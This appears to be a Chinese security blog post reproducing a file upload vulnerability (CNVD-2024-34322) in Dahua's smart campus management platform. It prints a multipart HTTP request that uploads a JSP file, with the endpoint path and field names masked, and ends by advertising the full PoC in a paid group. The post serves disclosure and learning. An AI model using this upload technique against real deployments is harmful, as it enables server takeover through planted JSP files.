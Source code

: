 #  【1day】⼤华智慧园区综合管理平台⽂件上传(CNVD2024-34322)   
原创 跟着斯叔唠安全  跟着斯叔唠安全   2025-05-13 23:00  
  
免责声明  
：  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
1  
  
Start  
  
系统介绍  
  
大华智慧园区综合管理平台  
旨在通过构建统一的管理和服务平台，整合园区内的人、车、物、事件等多维度数据，实现园区的智能化、精细化管理。该平台主要面向商业园区、产业园区、高校园区等多种场景，提供从安防监控、设备管理到人员管理、访客管理、车辆管理等多方面的综合解决方案  
  
资产测绘  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pKCicPnn24UZuEsRdXk3Ba9v7BJOuNMzia070HD1CkSMgyP9j5CugFDYTgiabpG9BP8OjR39FgWCufvCxmrniaBzhw/640?wx_fmt=png&from=appmsg "")  
  
  
2  
  
Action  
  
漏洞复现  
  
直接使用payload，向目标接口上传文件```
POST /******/******.****** HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Length: 336

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="****"; filename="aaa.jsp"
Content-Type: text/plain

<% out.print("xxxx~~~");%>
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="***"

aaa.jsp
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pKCicPnn24UZ0ucy4VKdrBniatwW5rxFGBqzVJbg4SVUkvXQxian0JEicoPCcsznt5db10hrHLWbyhqeUw9gDUTakw/640?wx_fmt=png&from=appmsg "")  
  
然后根据代码设定的上传文件名规则拼接成对应的文件名称，访问文件上传后文件存放的路径（感觉跟昨天的漏洞差不多？没～座～，今天这是另一个接口的漏洞，底层调用的上传方法跟昨天的漏洞是一样的）  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pKCicPnn24UZ0ucy4VKdrBniatwW5rxFGBKgduVLq4Hb5h3E6oIjlbyyMqdM8oHVdd21f5BHqKUrWneCgibSiaQO3g/640?wx_fmt=png&from=appmsg "")  
  
  
3  
  
End  
  
🚀 **新圈子上线 | 高质量安全内容持续更新中！**  
  
我最近在纷传上建立了一个全新的安全技术圈子，主要聚焦于 **WEB安全、APP安全、代码审计、漏洞分享**  
 等核心方向。目前圈子刚刚建立，内容还不算多，但会**持续高频更新**  
，只分享真正有价值、有深度的干货文章。  
  
📚 圈子中包含：  
- 高质量原创或精选的安全技术文章  
  
- 公众号历史付费内容免费查看（如：小程序RPC、APP抓包解决方案）  
  
- 一些只在圈子内分享的独家思路和实战经验  
  
文章中涉及的完整POC及代码审计报告已上传至纷传圈子中，需要的师傅可以自取哈  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pKCicPnn24UZuEsRdXk3Ba9v7BJOuNMziaiaUZ9b3d40xXpSzR5icxvb4K6XCVp60wzvaiayiaqMR15U0wZ9oQmUKHUQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
  
  
